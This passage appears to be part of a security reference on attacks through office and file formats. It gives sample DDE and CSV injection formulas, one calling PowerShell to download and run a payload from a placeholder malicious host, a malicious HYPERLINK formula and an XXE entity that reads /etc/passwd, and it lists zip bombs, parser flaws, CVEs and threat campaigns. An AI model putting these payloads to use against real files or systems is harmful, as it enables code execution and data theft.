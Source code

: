 **DDE (Dynamic Data Exchange) Exploitation:**

```
=cmd|' /C calc'!A0
=cmd|'/C powershell IEX(wget malicious.com/payload)'!A0
```

**CSV Injection Attacks:**

```
=cmd|'/C calc'!A0
=2+5+cmd|'/C calc'!A0
@SUM(1+1)*cmd|'/C calc'!A0
```

**HYPERLINK Function Abuse:**

```
=HYPERLINK("http://malicious.com/payload.exe","Click here")
```

### 10.4 File Format Exploits

**ZIP Bomb Attacks:**

- Compressed files with extreme expansion ratios
- Memory exhaustion during decompression
- CPU consumption through repeated expansion
- Example: 42KB file expanding to 4.5PB

**XML External Entity (XXE) Vulnerabilities:**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

**Parser Vulnerabilities:**

- Buffer overflow in XML processing
- Integer overflow in size calculations
- Path traversal during ZIP extraction
- Memory corruption through malformed structures

### 10.5 Recent CVEs and Attack Campaigns

**Critical Vulnerabilities (2023-2024):**

- **CVE-2024-30042**: Excel RCE through crafted documents
- **CVE-2024-30103**: Outlook RCE affecting Office integration
- **CVE-2023-36884**: Zero-day exploitation by Storm-0978 APT

**Active Threat Campaigns:**

- **DarkGate Campaign**: Excel files downloading from SMB shares
- **Remcos RAT**: Fileless attacks exploiting CVE-2017-0199
- **APT41**: DodgeBox and MoonWalk malware distribution
